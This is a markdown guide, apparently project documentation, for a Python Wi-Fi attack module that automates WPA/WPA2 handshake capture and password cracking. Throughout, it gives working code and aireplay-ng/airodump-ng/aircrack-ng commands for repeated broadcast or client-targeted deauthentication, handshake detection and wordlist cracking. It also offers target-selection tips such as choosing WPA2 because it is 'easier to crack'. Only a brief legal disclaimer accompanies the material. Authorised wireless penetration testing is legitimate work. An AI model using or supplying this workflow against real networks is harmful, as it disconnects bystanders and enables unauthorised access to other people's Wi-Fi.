

# Wi-Fi Attack Module - Complete Guide

## Overview

The Wi-Fi Attack Module provides comprehensive wireless penetration testing capabilities with automated WPA/WPA2 handshake capture and cracking features.

## Features

### 1. Monitor Mode Management
- ✅ Enable/Disable monitor mode on wireless interfaces
- ✅ Automatic interface detection
- ✅ Process cleanup (kills interfering services)

### 2. Network Scanning
- ✅ Real-time Wi-Fi network discovery
- ✅ No temporary files (streams from stdout)
- ✅ Displays BSSID, ESSID, channel, encryption, power

### 3. WPA/WPA2 Handshake Capture (NEW)
- ✅ **Concurrent subprocess management**
- ✅ **Automatic deauthentication**
- ✅ **Real-time handshake detection**
- ✅ **Smart process termination**

### 4. Password Cracking
- ✅ Wordlist-based cracking with aircrack-ng
- ✅ Real-time progress monitoring

## WPA/WPA2 Handshake Capture - Technical Details

### Architecture

The new `capture_handshake_with_deauth()` function implements a sophisticated dual-process architecture:

```
┌─────────────────────────────────────────────────┐
│         Main Thread (Coordinator)               │
│  • Manages both processes                       │
│  • Monitors airodump-ng output                  │
│  • Detects handshake capture                    │
│  • Terminates processes on success              │
└─────────────────────────────────────────────────┘
         │                               │
         ▼                               ▼
┌──────────────────┐          ┌──────────────────────┐
│  Process 1       │          │  Thread 1            │
│  airodump-ng     │          │  deauth_worker()     │
│                  │          │                      │
│  • Listens on    │          │  • Sends deauth      │
│    target BSSID  │          │    packets every 5s  │
│  • Captures      │          │  • Runs Process 2    │
│    packets       │          │    (aireplay-ng)     │
│  • Writes .cap   │          │  • Loops until       │
│    file          │          │    handshake found   │
└──────────────────┘          └──────────────────────┘
```

### Process Flow



### Implementation Highlights

#### 1. Concurrent Process Management

```python
# Start airodump-ng for packet capture
airodump_process = subprocess.Popen(
    ["airodump-ng", "--bssid", bssid, "-c", channel, "-w", output_file, monitor_interface],
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE,
    text=True,
    bufsize=1  # Line buffering for real-time output
)

# Start deauth in separate thread
def deauth_worker():
    while deauth_active.is_set():
        # Send deauth packets
        aireplay_process = subprocess.Popen(
            ["aireplay-ng", "--deauth", str(count), "-a", bssid, monitor_interface],
            ...
        )
        aireplay_process.wait(timeout=10)
        time.sleep(5)  # Wait before next cycle

deauth_thread = threading.Thread(target=deauth_worker, daemon=True)
deauth_thread.start()
```

#### 2. Real-time Handshake Detection

```python
# Monitor airodump-ng output line-by-line
while time.time() - start_time < max_duration:
    line = airodump_process.stdout.readline()
    
    # Method 1: Simple string match
    if "WPA handshake" in line:
        if bssid in line:
            handshake_captured = True
            break
    
    # Method 2: Regex extraction
    handshake_match = re.search(r'WPA handshake:\s*([0-9A-Fa-f:]{17})', line)
    if handshake_match:
        captured_bssid = handshake_match.group(1)
        if captured_bssid.upper() == bssid.upper():
            handshake_captured = True
            break
```

#### 3. Smart Process Termination

```python
# Stop deauth thread
deauth_active.clear()  # Signal thread to stop

# Terminate airodump-ng gracefully
airodump_process.terminate()
try:
    airodump_process.wait(timeout=5)
except subprocess.TimeoutExpired:
    airodump_process.kill()  # Force kill if necessary
    airodump_process.wait()

# Wait for deauth thread cleanup
deauth_thread.join(timeout=2)
```

## Usage Examples

### Complete Workflow

```python
from modules.wifi_module import (
    enable_monitor_mode,
    scan_wifi_networks,
    capture_handshake_with_deauth,
    crack_handshake
)

# 1. Enable monitor mode
monitor_interface = enable_monitor_mode("wlan0")
# Output: wlan0mon

# 2. Scan for networks
networks = scan_wifi_networks(monitor_interface, duration=30)
# Select target network
target = networks[0]  # Example: first network

# 3. Capture handshake with automatic deauth
capture_file = capture_handshake_with_deauth(
    monitor_interface=monitor_interface,
    bssid=target['bssid'],
    channel=target['channel'],
    client_mac=None,  # Broadcast deauth
    output_prefix="handshake",
    max_duration=60
)

# 4. Crack the handshake
if capture_file:
    password = crack_handshake(
        capture_file=capture_file,
        wordlist="/usr/share/wordlists/rockyou.txt"
    )
    
    if password:
        print(f"Password found: {password}")
```

### Manual Mode (Legacy)

```python
# If you prefer manual deauth in separate terminal
capture_file = capture_handshake(
    monitor_interface=monitor_interface,
    bssid=target['bssid'],
    channel=target['channel'],
    output_prefix="handshake",
    duration=60,
    auto_deauth=False  # Disable automatic deauth
)
```

### With Specific Client Target

```python
# More effective: target specific client
capture_file = capture_handshake_with_deauth(
    monitor_interface=monitor_interface,
    bssid="AA:BB:CC:DD:EE:FF",
    channel="6",
    client_mac="11:22:33:44:55:66",  # Specific client
    max_duration=60
)
```

## Command-Line Equivalents

### What the tool does automatically:

**Old manual approach:**
```bash
# Terminal 1: Start capture
sudo airodump-ng --bssid AA:BB:CC:DD:EE:FF -c 6 -w handshake wlan0mon

# Terminal 2: Send deauth (while watching Terminal 1)
sudo aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# Manually watch for "WPA handshake" message
# Manually stop both processes when handshake appears
```

**New automated approach:**
```python
# Single function call does everything
capture_file = capture_handshake_with_deauth(
    monitor_interface="wlan0mon",
    bssid="AA:BB:CC:DD:EE:FF",
    channel="6",
    max_duration=60
)
# Automatically:
# - Starts airodump-ng
# - Sends deauth every 5 seconds
# - Monitors for handshake
# - Stops both processes
# - Returns capture file path
```

## Configuration

Settings are read from `config.json`:

```json
{
  "wifi_settings": {
    "default_scan_duration": 30,
    "handshake_timeout": 60,
    "deauth_count": 5,
    "default_channel": "auto"
  }
}
```

- **`default_scan_duration`**: How long to scan for networks (seconds)
- **`handshake_timeout`**: Maximum time to wait for handshake (seconds)
- **`deauth_count`**: Number of deauth packets per cycle
- **`default_channel`**: Default channel (or "auto")

## Output Files

### Handshake Capture Files

Format: `<prefix>_<timestamp>-01.cap`

Example: `handshake_20251014_192345-01.cap`

**Additional files created:**
- `.cap` - Packet capture (main file)
- `.csv` - Network information
- `.kismet.csv` - Kismet format
- `.kismet.netxml` - Kismet XML

### Success Messages

```
🎯 Target: AA:BB:CC:DD:EE:FF on channel 6
Starting automated WPA/WPA2 handshake capture...
⚠ Maximum capture time: 60 seconds
ℹ 📡 Starting packet capture with airodump-ng...
ℹ 💥 Sending 5 deauth packets to AA:BB:CC:DD:EE:FF (broadcast)
ℹ 👂 Monitoring for WPA handshake...
ℹ 💥 Sending 5 deauth packets to AA:BB:CC:DD:EE:FF (broadcast)
✓ ✅ WPA handshake captured from AA:BB:CC:DD:EE:FF!
✓ 🎉 Handshake successfully captured!
✓ 📁 File saved to: handshake_20251014_192345-01.cap
ℹ 📝 Next step: Crack with: aircrack-ng -w <wordlist> handshake_20251014_192345-01.cap
```

## Troubleshooting

### No Handshake Captured

**Possible causes:**
1. **No clients connected**: AP has no active clients
   - Solution: Wait for clients to connect or try another target

2. **Clients didn't reconnect**: Deauth didn't trigger reconnection
   - Solution: Increase deauth count in config.json
   - Solution: Try targeting specific client MAC

3. **Channel interference**: Signal interference on channel
   - Solution: Ensure you're close to the AP
   - Solution: Check for other APs on same channel

4. **Wrong interface mode**: Interface not in monitor mode
   - Solution: Run `enable_monitor_mode()` first

### Process Cleanup Issues

If processes don't terminate cleanly:

```python
# Manual cleanup
import subprocess

# Kill all aircrack-ng suite processes
subprocess.run(["pkill", "airodump-ng"])
subprocess.run(["pkill", "aireplay-ng"])

# Restart NetworkManager
subprocess.run(["systemctl", "restart", "NetworkManager"])
```

## Best Practices

### 1. Target Selection
- ✅ Choose networks with active clients
- ✅ Select 2.4GHz networks (better range)
- ✅ Prefer WPA2 over WPA3 (easier to crack)

### 2. Deauth Strategy
- ✅ Use broadcast deauth first (catches all clients)
- ✅ If unsuccessful, target specific client MAC
- ✅ Monitor client reconnection patterns

### 3. Capture Duration
- ✅ Start with 60 seconds (usually sufficient)
- ✅ Increase if AP has infrequent client activity
- ✅ Decrease if testing multiple targets

### 4. Legal Considerations
- ⚠️ **Only test networks you own or have permission to test**
- ⚠️ Unauthorized access is illegal in most jurisdictions
- ⚠️ This tool is for educational and authorized testing only

## Advanced Features

### Threading Model

The deauth worker runs in a daemon thread:
- **Advantages**:
  - Non-blocking (doesn't halt main execution)
  - Auto-cleanup on program exit
  - Controlled via Event object

- **Event-based control**:
  ```python
  deauth_active = threading.Event()
  deauth_active.set()    # Start deauth
  deauth_active.clear()  # Stop deauth
  ```

### Error Handling

Comprehensive exception handling:
```python
try:
    # Capture logic
    ...
except KeyboardInterrupt:
    print_warning("\n⚠️  Capture interrupted by user")
except subprocess.TimeoutExpired:
    process.kill()
except Exception as e:
    print_error(f"Error: {str(e)}")
finally:
    # Always cleanup
    deauth_active.clear()
    airodump_process.terminate()
```

### File Management

Automatic timestamp-based naming prevents overwrites:
```python
timestamp = time.strftime("%Y%m%d_%H%M%S")
output_file = f"handshake_{timestamp}"
# Results in: handshake_20251014_192345-01.cap
```

## Performance Optimization

### Memory Efficiency
- ✅ Line-buffered output (`bufsize=1`)
- ✅ Streaming processing (no file buffering)
- ✅ Immediate process termination on success

### CPU Efficiency
- ✅ Sleep intervals in deauth loop (5 seconds)
- ✅ Daemon threads (auto-cleanup)
- ✅ Minimal regex operations

### Network Efficiency
- ✅ Targeted BSSID filtering
- ✅ Channel locking (reduces interference)
- ✅ Configurable deauth count

## API Reference

### capture_handshake_with_deauth()

```python
def capture_handshake_with_deauth(
    monitor_interface: str,
    bssid: str,
    channel: str,
    client_mac: Optional[str] = None,
    output_prefix: str = "handshake",
    max_duration: int = 60
) -> Optional[str]:
    """
    Capture WPA/WPA2 handshake with automatic deauthentication.
    
    Args:
        monitor_interface: Monitor mode interface (e.g., "wlan0mon")
        bssid: Target AP BSSID (e.g., "AA:BB:CC:DD:EE:FF")
        channel: Target channel (e.g., "6")
        client_mac: Specific client to deauth (None = broadcast)
        output_prefix: Output file prefix (default: "handshake")
        max_duration: Maximum capture time in seconds (default: 60)
    
    Returns:
        str: Path to .cap file if successful, None otherwise
    """
```

### capture_handshake()

```python
def capture_handshake(
    monitor_interface: str,
    bssid: str,
    channel: str,
    output_prefix: str = "handshake",
    duration: int = 60,
    auto_deauth: bool = True,
    client_mac: Optional[str] = None
) -> Optional[str]:
    """
    Capture WPA/WPA2 handshake (wrapper function).
    
    Args:
        monitor_interface: Monitor mode interface
        bssid: Target AP BSSID
        channel: Target channel
        output_prefix: Output file prefix
        duration: Capture duration in seconds
        auto_deauth: Enable automatic deauth (recommended)
        client_mac: Specific client to deauth (optional)
    
    Returns:
        str: Path to .cap file if successful, None otherwise
    """
```

## Conclusion

The enhanced handshake capture feature provides:
- ✅ Fully automated operation
- ✅ Concurrent process management
- ✅ Real-time handshake detection
- ✅ Smart error handling
- ✅ Professional user feedback

This eliminates the need for manual terminal management and makes WPA/WPA2 testing significantly more efficient.

